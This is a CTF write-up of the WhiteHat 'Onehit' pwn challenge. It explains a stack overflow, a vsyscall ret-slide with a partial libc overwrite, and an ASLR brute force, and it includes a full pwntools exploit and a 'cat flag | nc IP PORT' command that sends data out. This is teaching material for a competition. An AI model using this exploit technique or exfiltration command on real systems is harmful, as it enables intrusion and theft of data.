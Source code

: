# Write up for "Onehit" challenge - pwn 03 

## Skimming through to find the bug!

So, first thing we did was to open up the binary in IDA, we quickly noticed that there a function called `Echo()` that calls `read()` with an un-initialized value as the `count` (amount of bytes to read).

This leads to a stack-based buffer overflow!

## Stack Overflow --> Code Execution ?

So, after finding the bug, we also noticed there were **no** leaks whatsoever. After getting stuck for a while, we remembered a trick that used `vsyscall` for gadgets!

For those of you who don't know, `vsyscall` is always mapped to the same address. 

The binary was running a "custom" libc, that had an additional gadget that basically did:

```
add rdi, 127
jmp system
```

At the moment that we control the return-address, `rdi` points to somewhere inside our input. It is important to state that **before** we overwrite the return address, there is a call to `strcpy()` which "trashes" the value of rdi with a NULL terminated string -- this prevented us from just simply jumping to a `system()` gadget that was already present in the binary.

After we had control over the argument to `system()`, because `stdin` and `stdout` were both closed, we just executed the following command to get the flag:
`cat flag | nc IP PORT` (where IP and PORT are the IP of our server, and the port we were listening to).

## The vsyscall trick

So, you must be wondering "What vsyscall trick is he talking about...?" -- So there it is!

As the libc was patched, and added an extra, super-useful gadget, we **had** to use that gadget in order to get a shell.

After debugging a bit, we ntoiced that in offset 30 QWORDs (30 * 8 bytes) from the return address (including the return-address), there was a libc address in the stack.

Using the fact that `vsyscall` is **always** mapped to the same address, we can use some of it's gadgets!

We can't just jump into a middle of a vsyscall, so we have to perform a "whole" vsyscall, but the general idea is to use the `ret` instruction of a `vsyscall` to just "slide through" the stack until we reach a libc-address, and then we **only partiall overwrite it**.

This is the `vsyscall` gadget we decided to use:

```
   0xffffffffff600400:    mov    rax,0xc9
   0xffffffffff600407:    syscall
   0xffffffffff600409:    ret
```

## Breaking ASLR ?

Even though we have bypassed *most* of the ASLR randomization, there are still 12 bits that we don't know for sure after overwriting the 3 least significant nibbles (12 least significant bits) of the libc address -- the way we bypassed ASLR is by relying on a statistical factor, we ran the exploit for quite some time until we landed with a "good" ASLR base guess.


## Finalizing the exploit

So, to sum things up we have the following points to finish up our exploit:

1. Overwrite the stack from the return address (including) with 30 QWORDs that hold the address `0xffffffffff600400`, this will allow us to "slide" through the stack until we reach a libc address.

2. Make sure that when we start jumping to the `vsyscall` "slide", `rdi+127` holds the string `"cat flag | nc IP PORT"` (this is easily done because `rdi+127` is controlled by us!).

3. Once we reach the libc address, overwrite it partially with 3 bytes - these 3 bytes will be the 3 least significant bytes of the "patched-in" gadgets, which will finally execute: `system(rdi+127)` which is `system("/bin/sh")`.

4. Profit!

## Exploit Code

*Note: this exploit works with a statistical factor*

The flag was: `WhiteHat{6c6edbd044176a913a1ed34661a37e836848f066}`

```Python
import hashlib
import os
import time

def solve(pre, sice):
    for i in range(0x100000):
        if hashlib.sha512( pre + str(i)).hexdigest().startswith(sice):
            return i
    return -1

from pwn import *

proc = remote("pwn03.grandprix.whitehatvn.com", 2023)

proc.recvuntil("sha512(\"")
pre = proc.recvuntil('"').strip('"')
proc.recvuntil("0x")
pow_chall = proc.recvuntil("...").strip("...").strip("0x")
solution = solve(pre, pow_chall)
proc.recvuntil(" =")
proc.sendline(str(solution) + "\x00" + "A"*(77-len(str(solution))-1))

proc.recvuntil("al?")
proc.send("N0")

proc.recvuntil("/sh")
proc.sendline("1")

# an address that exists: 0x7ffff7a05b97 an address we need 0x7ffff7a3343e
vsyscall = p64(0xffffffffff600400)
count = 30

send_flag = 'cat flag | nc IP PORT\x00' # we censored our IP and PORT

leftover = (232-143-len(send_flag))
proc.send(cyclic(143) +send_flag+ 'A'*leftover+vsyscall*count + '\x3a\x34\xa3') # RIP control :P
proc.interactive()
```
